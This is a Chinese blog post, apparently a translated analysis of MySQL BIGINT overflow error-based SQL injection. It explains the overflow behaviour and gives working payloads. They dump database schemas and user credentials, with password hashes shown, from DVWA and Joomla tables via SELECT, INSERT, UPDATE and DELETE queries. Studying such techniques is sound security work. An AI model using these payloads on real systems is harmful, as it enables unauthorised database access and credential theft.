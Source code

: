 ```yaml
---
layout: post
title: BIGINT Overflow Error Based SQL Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

>根据Mysql BIGINT数据类型，结合Mysql两个小特性，巧妙的构造出新型报错注入。Paper翻译自<a target="_blank" href="https://www.exploit-db.com/docs/37733.pdf">BIGINT Overflow Error Based SQL Injection</a>，这里就分析下此报错注入的方式与原理。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**首先看看Mysql(>=5.5.5)如何存储整数的，之前的版本当整数溢出的时候不会报错。<a target="_blank" href="http://dev.mysql.com/doc/refman/5.5/en/integer-types.html">Integer Types (Exact Value)</a>**

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/i76ryjtgdh.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**BIGINT数据类型的长度为8字节(64Bytes)，分别用二进制、十进制、十六进制的`signed/unsigned`表示最大值:**

	#signed - Binary、Decimal、Hex
	0b0111111111111111111111111111111111111111111111111111111111111111
	9223372036854775807
	0x7fffffffffffffff

	#unsigned - Binary、Decimal、Hex
	0b1111111111111111111111111111111111111111111111111111111111111111
	18446744073709551615
	0xFFFFFFFFFFFFFFFF

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**分别将`signed/unsigned`的BIGINT最大值进行数学计算，来证明报错的原因：**

	#signed
	mysql> select cast(x'7fffffffffffffff' as signed)/9223372036854775807;
	+---------------------------------------------------------+
	| cast(x'7fffffffffffffff' as signed)/9223372036854775807 |
	+---------------------------------------------------------+
	|                                                  1.0000 |
	+---------------------------------------------------------+
	1 row in set (0.00 sec)
	mysql> select cast(x'7fffffffffffffff' as signed)+1;
	ERROR 1690 (22003): BIGINT value is out of range in '(cast(0x7fffffffffffffff as signed) + 1)'
	
	#unsigned
	mysql> select 18446744073709551615-1;
	+------------------------+
	| 18446744073709551615-1 |
	+------------------------+
	|   18446744073709551614 |
	+------------------------+
	1 row in set (0.00 sec)
	mysql> select 18446744073709551615+1;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**由此看出当BIGINT最大值进行增值运算的时候，`signed/unsigned`都会爆出`BIGINT value is out of range`的错误，也就是溢出了。还有就是Mysql逐位取反的特性，打个比方：**

	mysql> select ~0;
	+----------------------+
	| ~0                   |
	+----------------------+
	| 18446744073709551615 |
	+----------------------+
	1 row in set (0.00 sec)
	mysql> select ~18446744073709551615;
	+-----------------------+
	| ~18446744073709551615 |
	+-----------------------+
	|                     0 |
	+-----------------------+
	1 row in set (0.00 sec)
	
	mysql> select 1-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 - ~(0))'
	
	mysql> select 1+~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**也就是说从0逐位取反，得到的数字也正是BIGINT中unsigned的数值范围，这个数值进行数学运算时同样会出现溢出错误。那么怎样能在实际应用当中利用上这个报错呢？接下来就说到了Mysql子查询的一个特性，当查询结果成功返回时，返回值为0，表达式进行逻辑非运算后，返回值则为1，并且这个返回值也可以进行数学运算：**

	mysql> select !(select*from(select user())x)+1;
	+----------------------------------+
	| !(select*from(select user())x)+1 |
	+----------------------------------+
	|                                2 |
	+----------------------------------+
	1 row in set (0.00 sec)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**根据子查询的特点，再结合BIGINT逐位取反的溢出报错。我们就可以进行报错注入了：**

	mysql> select !(select*from(select user())x)-~18446744073709551615;
	+------------------------------------------------------+
	| !(select*from(select user())x)-~18446744073709551615 |
	+------------------------------------------------------+
	|                                                    1 |
	+------------------------------------------------------+
	1 row in set (0.00 sec)
	
	mysql> select !(select*from(select user())x)-~0;
	ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'
	
	mysql> select (select(!x-~0)from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'
    
    mysql> select (select!x-~0.from(select(select user())x)a);
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not('root@localhost')) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然可以通过BIGINT溢出配合子查询进行报错注入，那么就可以在实战当中获取到更多的数据：**

	mysql> select !(select*from(select concat_ws(':',id, username, password) from k8fzi_users limit 0,1)x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '533:admin:$2y$10$wE6S6EEj5Xc3/Jo8rQDSAu0mxQr2FmZJmT4SlsXL8PdM8Ymb/82Ly' from dual))) - ~(0))'

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**因为是BIGINT数值范围溢出特点，那么Mysql中很多数学函数也可以应用到，Mysql的语法灵活，这些数学函数是可以嵌套表达式的，然后将返回值进行运算。**

    select !hex((select*from(select user())x))-~0;
    select !ceil((select*from(select user())x))-~0;
    select !atan((select*from(select user())x))-~0;
    select !rand((select*from(select user())a))-~0;
    select !sqrt((select*from(select user())a))-~0;
    select !round((select*from(select user())a))-~0;
    select !sign((select*from(select user())a))-~0;
    select !floor((select*from(select user())a))-~0;
    select !tan((select*from(select user())a))-~0;
    select !ceiling((select*from(select user())a))-~0;
    select !exp((select*from(select user())x))-~0;
    select !(select*from(select user())a)-~1^200;

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**既然是报错类型的注入，那么一次性存储也是可以的：**

    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x2d2d,table_name,0x2d2d,column_name)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    joomla_3.4.4--k8fzi_assets--id
    joomla_3.4.4--k8fzi_assets--parent_id
    joomla_3.4.4--k8fzi_assets--lft
    joomla_3.4.4--k8fzi_assets--rgt
    joomla_3.4.4--k8fzi_assets--level
    joomla_3.4.4--k8fzi_assets--name
    joomla_3.4.4--k8fzi_assets--title
    joomla_3.4.4--k8fzi_assets--rules
    joomla_3.4.4--k8fzi_associations--id
    joomla_3.4.4--k8fzi_associations--context
    joomla_3.4.4--k8fzi_associations--key
    joomla_3.4.4--k8fzi_banner_clients--id
    joomla_3.4.4--k8fzi_banner

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**这里纠正一个Paper中错误的观点，文中提到一次性存储表列数据只能取出27行，其实这是报错信息的最大长度所决定的，如果只想取到重要信息的话，Payload中不加库名表名还有分隔符简短点就可以了，一图胜千言。**

<img src="http://blog-1252048719.cos.ap-shanghai.myqcloud.com/5u6ehrtsdf.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**当知道库名表名列名后，就可以构造语句获取数据了：**

    #select:
    mysql> select !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #insert:
    mysql> insert into users (user_id,user,password) values (2,'' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0 or '', 'Eyre');
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #update:
    mysql> update users set password='root' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'
    
    #delete:
    mysql> delete from users where user_id='1' or !(select*from(select(concat(@:=0,(select count(*)from`dvwa`.users where @:=concat(@,0xa,user_id,0x2d2d,user,0x2d2d,password)),@)))x)-~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
    1--admin--5f4dcc3b5aa765d61d8327deb882cf99
    2--gordonb--e99a18c428cb38d5f260853678922e03
    3--1337--8d3533d75ae2c3966d7e0d4fcc69216b
    4--pablo--0d107d09f5bbe40cade3de5c71e9e9b7
    5--smithy--5f4dcc3b5aa765d61d8327deb882cf99' from dual))) - ~(0))'